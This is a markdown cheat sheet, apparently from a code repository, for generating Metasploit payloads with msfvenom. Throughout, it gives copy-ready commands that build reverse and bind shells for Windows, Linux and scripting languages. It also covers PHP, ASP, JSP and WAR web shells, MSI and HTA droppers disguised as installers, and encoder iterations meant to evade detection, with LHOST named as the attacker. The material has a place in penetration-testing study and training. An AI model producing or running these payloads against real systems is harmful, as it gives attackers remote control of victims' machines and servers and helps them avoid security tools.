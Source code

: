 ```yaml
---
title: msfvenom
tags: [tool, payload, exploits, cheatsheet]
tools: ['msfvenom']
notes: "Quick reference for generating reverse/bind shells and file format payloads"
---
```


# msfvenom Cheat Sheet

## General Syntax
`msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <outfile>`

- `-p` → payload  
- `LHOST` → local host (attacker)  
- `LPORT` → local port (attacker)  
- `-f` → output format (exe, elf, asp, war, raw, etc.)  
- `-o` → output file  

---

## Common Reverse Shell Payloads

### Windows
- Reverse TCP:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o shell.exe`

- Reverse HTTPS:  
  `msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port> -f exe -o shell.exe`

- Stageless Reverse TCP:  
  `msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o rev.exe`

---

### Linux
- Reverse TCP ELF:  
  `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o shell.elf`

- Stageless Reverse TCP:  
  `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o rev.elf`

---

### Web Payloads
- PHP Reverse Shell:  
  `msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.php`

- ASP Reverse Shell:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o shell.asp`

- JSP Reverse Shell:  
  `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp`

- WAR File:  
  `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war`

---

## Bind Shell Payloads

- Windows Bind TCP:  
  `msfvenom -p windows/meterpreter/bind_tcp LPORT=<port> -f exe -o bind.exe`

- Linux Bind TCP:  
  `msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=<port> -f elf -o bind.elf`

---

## Scripting Payloads

- Python:  
  `msfvenom -p python/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -o shell.py`

- Bash:  
  `msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -o shell.sh`

- Perl:  
  `msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -o shell.pl`

---

## Other Formats

- PowerShell:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f psh -o shell.ps1`

- MSI Installer:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o setup.msi`

- HTA (HTML Application):  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o shell.hta`

---

## Encoding & Evasion

- Show encoders:  
  `msfvenom -l encoders`

- Use encoder:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 5 -f exe -o encoded.exe`

---

## Useful Notes
- Use `msfvenom -l payloads` to list all payloads.  
- Staged payloads = `/meterpreter/reverse_tcp` (require handler).  
- Stageless payloads = `/shell_reverse_tcp` (direct shell).  
- Always set matching `LHOST`/`LPORT` in listener (e.g. Metasploit `multi/handler`).  